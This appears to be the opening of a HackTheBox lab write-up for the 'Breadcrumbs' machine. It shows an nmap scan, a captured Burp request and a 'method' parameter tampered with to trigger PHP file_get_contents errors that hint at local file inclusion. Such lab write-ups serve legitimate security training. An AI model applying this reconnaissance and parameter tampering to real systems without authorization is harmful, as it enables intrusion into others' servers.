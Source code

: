 Title: Breadcrumbs writeup HackTheBox - by DarkRider88
Date: 1/3/2021
Description: Hacking into a hard level windows machine exploiting a php lfi vulnerability and then lots of enumeration for user flag and then pivoting to another port to exploit sql injection vulnerability.
Image: /assets/images/breadcrumbs-images/breadcrumbs.jpg
Level: Hard

## Enumeration

First running NMAP scan I got:

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-01 09:41 IST
Nmap scan report for 10.10.10.228
Host is up (0.20s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
80/tcp   open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/8.0.1)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/8.0.1)
445/tcp  open  microsoft-ds?

```

Checking port 80 there is a website running which has a book search feature

![website](/assets/images/breadcrumbs-images/website.png)

I tried few things with search feature but nothing seems interesting. And then I captured the request with burp and found an interesting parameter, method.

```http
POST /includes/bookController.php HTTP/1.1
Host: 10.10.10.228
Content-Length: 43
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.10.10.228
Referer: http://10.10.10.228/php/books.php
Cookie: PHPSESSID=t147294t2scku7jjq2io9n5psr
Connection: close

title=a&author=a&method=0
```

I changed the method value from 0 to 1 and it resulted into an error

```
HTTP/1.1 200 OK
Date: Mon, 01 Mar 2021 04:19:58 GMT
Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
X-Powered-By: PHP/8.0.1
Content-Length: 361
Connection: close
Content-Type: text/html; charset=UTF-8

<br />
<b>Warning</b>:  Undefined array key "book" in <b>C:\Users\www-data\Desktop\xampp\htdocs\includes\bookController.php</b> on line <b>28</b><br />
<br />
<b>Warning</b>:  file_get_contents(../books/): Failed to open stream: No such file or directory in <b>C:\Users\www-data\Desktop\xampp\htdocs\includes\bookController.php</b> on line <b>28</b><br />
```